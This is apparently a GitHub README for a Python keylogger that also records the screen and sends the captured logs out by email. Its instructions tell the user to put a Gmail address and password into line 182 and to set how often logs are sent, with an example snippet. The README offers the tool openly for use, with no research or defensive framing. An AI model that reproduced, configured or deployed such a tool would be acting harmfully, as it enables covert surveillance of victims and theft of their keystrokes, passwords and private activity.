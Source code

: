 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

## Instructions

- Change 182 line in Python file to your email and password **(ONLY GMAIL)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```
